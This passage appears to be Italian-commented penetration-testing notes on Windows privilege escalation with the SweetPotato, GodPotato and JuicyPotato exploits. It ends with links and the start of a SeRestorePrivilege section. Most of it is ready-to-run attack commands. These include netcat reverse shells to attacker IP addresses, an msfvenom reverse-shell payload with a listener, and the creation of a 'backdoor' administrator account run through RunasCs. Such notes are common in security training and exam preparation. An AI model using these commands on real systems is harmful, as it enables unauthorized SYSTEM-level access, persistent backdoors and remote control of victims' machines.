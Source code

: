 ```bash
# SweetPotato

.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"
```

```bash
# GodPotato

# Capire la versione da scaricare (NET35, NET4, NET2)
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"

# 1 Alternativa - esecuzione comando
.\GodPotato.exe -cmd "whoami"

# 2 Alternativa - GodPotato con reverse-shell msfvenom
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.3 lport=1234 -f exe > shell124.exe # da kali
nc -nlvp 1234 # da kali
.\GodPotato.exe -cmd "C:\programdata\shell124.exe"

# 3 Alternativa - Aggiunta utente al gruppo administrator
.\GodPotato.exe -cmd "net user /add backdoor Password123"
.\GodPotato.exe -cmd "net localgroup administrators /add backdoor"
# successivamente ricavare reverse-shell tramite RunasCs.exe
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.3 lport=1234 -f exe > shell124.exe # da kali
nc -nlvp 1234 # da kali
.\RunasCs.exe backdoor Password123 "C:\programdata\shell124.exe" --force-profile --logon-type 8
```

```bash
# JuicyPotato

# 1 Alternativa
.\JuicyPotato.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c whoami" -t *

# 2 Alternativa - con CLSID wuauserv
.\JuicyPotato.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\programdata\nc.exe -e cmd.exe 192.168.45.154 242" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}

# 2 Alternativa - con CLSID recuperato tramite GetCLSID.ps1
.\GetCLSID.ps1
.\Juicy.Potato.x86.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\programdata\nc.exe -e cmd.exe 192.168.45.154 242" -t * -c <CLSID HERE>
```

- [ADITYA Checklist](https://warranty-v01d.pages.dev/posts/how-i-passed-the-oscp/)

#### SeRestorePrivilege

- [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#serestoreprivilege)

Find the file _Utilman.exe_ inside the directory "C:\Windows\system32".
